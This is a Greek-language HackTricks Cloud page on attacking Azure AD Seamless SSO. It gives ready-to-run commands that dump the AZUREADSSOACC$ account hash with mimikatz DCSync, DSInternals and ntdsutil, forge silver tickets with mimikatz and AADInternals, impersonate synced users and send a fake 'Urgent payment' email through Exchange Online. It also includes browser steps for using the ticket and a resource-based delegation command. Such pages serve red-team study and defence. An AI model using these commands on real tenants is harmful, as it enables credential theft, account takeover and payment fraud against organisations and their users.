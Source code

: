 # Az - Απρόσκοπτη Ενιαία Σύνδεση (Seamless SSO)

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

[Από τα έγγραφα:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Η Απρόσκοπτη Ενιαία Σύνδεση (Azure AD Seamless SSO) του Azure Active Directory αυτοματοποιεί την **είσοδο των χρηστών όταν βρίσκονται στις εταιρικές συσκευές τους** που είναι συνδεδεμένες στο εταιρικό δίκτυο σας. Όταν είναι ενεργοποιημένη, **οι χρήστες δεν χρειάζεται να πληκτρολογήσουν τους κωδικούς πρόσβασής τους για να συνδεθούν στο Azure AD**, και συνήθως, ακόμα και τα ονόματα χρηστών τους. Αυτή η λειτουργία παρέχει στους χρήστες εύκολη πρόσβαση στις εφαρμογές που βρίσκονται στον νέφος χωρίς να χρειάζονται επιπλέον συστατικά στον τοπικό χώρο.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Βασικά, η Απρόσκοπτη Ενιαία Σύνδεση του Azure AD **συνδέει τους χρήστες** όταν βρίσκονται **σε έναν τοπικό υπολογιστή που έχει ενταχθεί στον τοπικό τομέα**.

Υποστηρίζεται από το [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) και το [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Η Απρόσκοπτη Ενιαία Σύνδεση του επιτραπέζιου υπολογιστή χρησιμοποιεί το **Kerberos** για την πιστοποίηση. Όταν ρυθμίζεται, η Azure AD Connect δημιουργεί έναν **λογαριασμό υπολογιστή με το όνομα AZUREADSSOACC`$`** στον τοπικό τομέα. Ο κωδικός πρόσβασης του λογαριασμού `AZUREADSSOACC$` **αποστέλλεται ως απλό κείμενο στο Azure AD** κατά τη διάρκεια της ρύθμισης.

Τα **εισιτήρια Kerberos** κρυπτογραφούνται χρησιμοποιώντας το **NTHash (MD4)** του κωδικού πρόσβασης και η Azure AD χρησιμοποιεί τον απεσταλμένο κωδικό για να αποκρυπτογραφήσει τα εισιτήρια.

Η **Azure AD** αποκαλύπτει ένα **σημείο πρόσβασης** (https://autologon.microsoftazuread-sso.com) που δέχεται εισιτήρια **Kerberos**. Ο περιηγητής του υπολογιστή που έχει ενταχθεί στον τομέα προωθεί τα εισιτήρια σε αυτό το σημείο πρόσβασης για την Απρόσκοπτη Ενιαία Σύνδεση.

### Από τον τοπικό χώρο -> νέφος

Ο **κωδικός πρόσβασης** του χρήστη **`AZUREADSSOACC$` δεν αλλάζει ποτέ**. Επομένως, ένας διαχειριστής του τομέα μπορεί να αποκτήσει το **hash αυτού του λογαριασμού** και στη συνέχεια να το χρησιμοποιήσει για να **δημιουργήσει ασημένια εισιτήρια** για να συνδεθεί στο Azure με **οποιονδήποτε συγχρονισμένο χρήστη από τον τοπικό χώρο**.
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Με το hash μπορείτε τώρα να **δημιουργήσετε ασημένια εισιτήρια**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Για να χρησιμοποιήσετε το silver ticket, πρέπει να ακολουθήσετε τα παρακάτω βήματα:

1. **Εκκίνηση του προγράμματος περιήγησης:** Πρέπει να εκκινήσετε το Mozilla Firefox.
2. **Ρύθμιση του προγράμματος περιήγησης:**
- Πλοηγηθείτε στη διεύθυνση **`about:config`**.
- Ορίστε την προτίμηση για το [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) στις καθορισμένες [τιμές](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Πρόσβαση στην Ιστοσελίδα:**
- Επισκεφθείτε μια ιστοσελίδα που είναι ενσωματωμένη με τον τομέα AAD του οργανισμού. Ένα κοινό παράδειγμα είναι το [Office 365](https://portal.office.com/).
4. **Διαδικασία Πιστοποίησης:**
- Στην οθόνη σύνδεσης, πρέπει να εισαγάγετε το όνομα χρήστη, αφήνοντας κενό το πεδίο κωδικού πρόσβασης.
- Για να προχωρήσετε, πατήστε TAB ή ENTER.

{% hint style="success" %}
Αυτό δεν παρακάμπτει την ενεργοποιημένη πολυπαραγοντική πιστοποίηση (MFA)
{% endhint %}

#### ~~Δημιουργία εισιτηρίων Kerberos για χρήστες μόνο στο cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Εάν οι διαχειριστές του Active Directory έχουν πρόσβαση στο Azure AD Connect, μπορούν να **ορίσουν το SID για οποιονδήποτε χρήστη στο cloud**. Με αυτόν τον τρόπο, μπορούν να δημιουργηθούν εισιτήρια Kerberos **και για χρήστες μόνο στο cloud**. Η μόνη απαίτηση είναι ότι το SID είναι ένα έγκυρο [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Η αλλαγή του SID των διαχειριστών μόνο στο cloud είναι πλέον **αποκλεισμένη από τη Microsoft**.\
Για περισσότερες πληροφορίες, ελέγξτε το [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud μέσω Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Οποιοσδήποτε μπορεί να διαχειριστεί τους λογαριασμούς υπολογιστών (`AZUREADSSOACC$`) στον κατάλογο ή τη μονάδα οργάνωσης στην οποία βρίσκεται αυτός ο λογαριασμός, μπορεί να **διαμορφώσει μια περιορισμένη ανάθεση βάσεων πόρων πάνω στον λογαριασμό και να έχει πρόσβαση σε αυτόν**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Είμαι στον νέφος σας, διαβάζω τα email όλων - χακάροντας το Azure AD μέσω του Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
